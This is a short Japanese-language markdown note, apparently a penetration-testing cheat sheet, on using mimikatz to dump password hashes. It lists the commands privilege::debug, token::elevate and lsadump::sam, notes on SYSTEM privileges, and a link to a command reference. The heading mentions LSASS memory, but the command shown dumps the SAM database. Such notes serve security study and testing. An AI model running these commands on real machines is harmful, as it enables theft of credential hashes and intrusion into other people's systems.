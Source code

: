 # mimikatz

### LSASS（Local Security Authority Subsystem）のプロセスメモリにキャッシュされているパスワードハッシュの抽出

```cmd
mimikatz.exe
# seDebugPrivilegeを有効にする
privilege::debug
# 整合性レベルをhigh→systemに
token::elevate
lsadump::sam
```

![image-20230106165509557](img/mimikatz/image-20230106165509557.png)

※lsadump::samを使ってSAMデータベースの内容をダンプしている

※LSASSはSYSTEMプロセスであり、管理者権限で動作するmimikatzよりもさらに高い権限を持っている



* コマンドのチートシート

  https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords

  
